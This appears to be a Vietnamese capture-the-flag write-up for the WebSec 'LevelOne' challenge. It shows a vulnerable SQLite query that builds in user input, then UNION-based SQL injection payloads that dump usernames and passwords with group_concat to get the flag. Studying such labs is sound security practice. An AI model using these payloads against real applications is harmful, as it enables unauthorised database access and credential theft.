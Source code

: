# LevelOne- Select the user by ID you wish to view
>Sqli ID
>
Đề bài cho câu lênh query sql sau : 

```sql
SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1
```
Ta nhập id = 1 và xem thử đầu ra => Thì thấy 2 trường đầu ra gồm id và username 
![id](https://github.com/tinasahara1/Study/blob/4d55fb78fcaa93466bf002059f47813c4522b60f/WebSec/image/id1.PNG)

Sau đó test thử payload với column = 2 để kiểm tra lỗ hổng => payload `1 union select 1,2-- -`
![id](https://github.com/tinasahara1/Study/blob/e159b1e37be66b1d5835208db76e3c848dc67e5b/WebSec/image/id3.PNG)

Đầu ra cho thấy cả 2 column 1,2 đều lỗi => Ta group_concat(username) để tìm flag thử 
```sql
1 union select 1,group_concat(username) from users;
```

![id](https://github.com/tinasahara1/Study/blob/70136a974f491dc499021b4fc7152f83dfa8a9a3/WebSec/image/id_4.PNG)


Nhưng vẫn không thấy ta thử tiếp phần password và tìm thấy flag :
```sql
1 union select 1,group_concat(password) from users;
```

![id](https://github.com/tinasahara1/Study/blob/3bcf48f054953d8366acef0111ed71c7239dc71f/WebSec/image/id_flag.PNG)

Flag: `WEBSEC{Simple_SQLite_Injection}`
